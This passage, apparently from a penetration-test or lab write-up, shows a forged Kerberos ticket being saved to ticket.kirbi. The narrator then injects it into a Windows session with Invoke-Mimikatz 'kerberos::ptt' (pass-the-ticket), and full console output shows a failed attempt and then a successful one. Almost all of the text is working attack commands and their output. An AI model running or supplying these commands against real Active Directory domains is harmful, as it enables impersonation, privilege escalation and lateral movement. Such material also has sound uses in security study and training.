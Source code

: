 ```sh
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Final Ticket Saved to file !

PS C:\ticket> ls

    Directory: C:\ticket

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         7/3/2024   3:15 PM           1499 ticket.kirbi
```



armed with this forged ticket, i injected it into our current session using the "Pass the Ticket" technique:

```sh
Invoke-Mimikatz -Command '"kerberos::ptt C:\ticket\ticket.kirbi"'
```

```sh
PS C:\ticket> Invoke-Mimikatz -Command '"kerberos::ptt C:\ticket\krbtgt_tkt.kirbi"'

  .#####.   mimikatz 2.1.1 (x64) built on Nov 29 2018 12:37:56
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcosmos.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # kerberos::ptt C:\ticket\krbtgt_tkt.kirbi

* File: 'C:\ticket\krbtgt_tkt.kirbi': ERROR kuhl_m_kerberos_ptt_file ; kuhl_m_file_readData (0x00000002)

PS C:\ticket> Invoke-Mimikatz -Command '"kerberos::ptt C:\ticket\ticket.kirbi"'

  .#####.   mimikatz 2.1.1 (x64) built on Nov 29 2018 12:37:56
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcosmos.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # kerberos::ptt C:\ticket\ticket.kirbi

* File: 'C:\ticket\ticket.kirbi': OK

```
